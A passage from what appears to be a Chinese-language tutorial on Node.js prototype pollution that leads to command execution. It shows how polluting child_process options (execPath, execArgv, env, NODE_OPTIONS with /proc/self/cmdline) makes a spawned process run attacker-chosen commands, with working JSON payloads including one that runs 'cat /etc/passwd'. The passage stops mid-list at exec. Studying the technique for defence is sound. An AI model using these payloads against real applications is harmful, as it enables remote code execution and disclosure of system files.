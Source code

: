 上面的`fork`中`options`除了`env`，还有`execPath`、`execArgv`

`execPath`默认获取的是`process.execPath`，即`node`命令的位置，比如我这环境在`'/root/.nvm/nvm-0.38.0/versions/node/v18.12.0/bin/node'`

`execArgv`默认获取的是`process.execArgv`，即传给`node`命令的参数

因此这两个参数也可以污染

```json
{"__proto__":{"execPath":"/bin/ls","execArgv":["-al","/"]}}
```

![image-20230808164107230](./../.gitbook/assets/image-20230808164107230.png)

此外还有其他参数可以污染，这次包含的`/proc/self/cmdline`

```json
{"__proto__":{"env":{"argv0":"console.log(require('child_process').execSync('cat /etc/passwd').toString())//","NODE_OPTIONS":"-r /proc/self/cmdline"}}}
```

除了`fork`、`spawn`，`child_process`下的其他函数也可以利用

要知道本质上`exec`、`execFile`也是开启一个新的子进程去执行

* `exec`
